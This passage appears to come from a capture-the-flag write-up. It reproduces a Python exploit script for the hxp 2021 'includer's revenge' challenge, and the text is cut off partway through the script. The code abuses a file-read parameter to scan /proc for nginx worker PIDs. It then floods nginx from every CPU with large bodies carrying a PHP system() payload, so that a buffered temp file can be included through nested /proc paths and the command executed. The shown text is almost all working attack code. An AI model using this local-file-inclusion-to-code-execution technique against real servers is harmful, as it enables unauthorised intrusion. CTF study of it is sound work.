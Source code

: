 ### Another Exploit

This is from [https://lewin.co.il/winning-the-impossible-race-an-unintended-solution-for-includers-revenge-counter-hxp-2021/](https://lewin.co.il/winning-the-impossible-race-an-unintended-solution-for-includers-revenge-counter-hxp-2021/)

```python
import requests
import threading
import multiprocessing
import threading
import random

SERVER = "http://localhost:8088"
NGINX_PIDS_CACHE = set([34, 35, 36, 37, 38, 39, 40, 41])
# Set the following to True to use the above set of PIDs instead of scanning:
USE_NGINX_PIDS_CACHE = False

def create_requests_session():
    session = requests.Session()
    # Create a large HTTP connection pool to make HTTP requests as fast as possible without TCP handshake overhead
    adapter = requests.adapters.HTTPAdapter(pool_connections=1000, pool_maxsize=10000)
    session.mount('http://', adapter)
    return session

def get_nginx_pids(requests_session):
    if USE_NGINX_PIDS_CACHE:
        return NGINX_PIDS_CACHE
    nginx_pids = set()
    # Scan up to PID 200
    for i in range(1, 200):
        cmdline = requests_session.get(SERVER + f"/?action=read&file=/proc/{i}/cmdline").text
        if cmdline.startswith("nginx: worker process"):
            nginx_pids.add(i)
    return nginx_pids

def send_payload(requests_session, body_size=1024000):
    try:
        # The file path (/bla) doesn't need to exist - we simply need to upload a large body to Nginx and fail fast
        payload = '<?php system("/readflag"); ?> //'
        requests_session.post(SERVER + "/?action=read&file=/bla", data=(payload + ("a" * (body_size - len(payload)))))
    except:
        pass

def send_payload_worker(requests_session):
    while True:
        send_payload(requests_session)

def send_payload_multiprocess(requests_session):
    # Use all CPUs to send the payload as request body for Nginx
    for _ in range(multiprocessing.cpu_count()):
        p = multiprocessing.Process(target=send_payload_worker, args=(requests_session,))
        p.start()

def generate_random_path_prefix(nginx_pids):
    # This method creates a path from random amount of ProcFS path components. A generated path will look like /proc/<nginx pid 1>/cwd/proc/<nginx pid 2>/root/proc/<nginx pid 3>/root
    path = ""
    component_num = random.randint(0, 10)
    for _ in range(component_num):
        pid = random.choice(nginx_pids)
```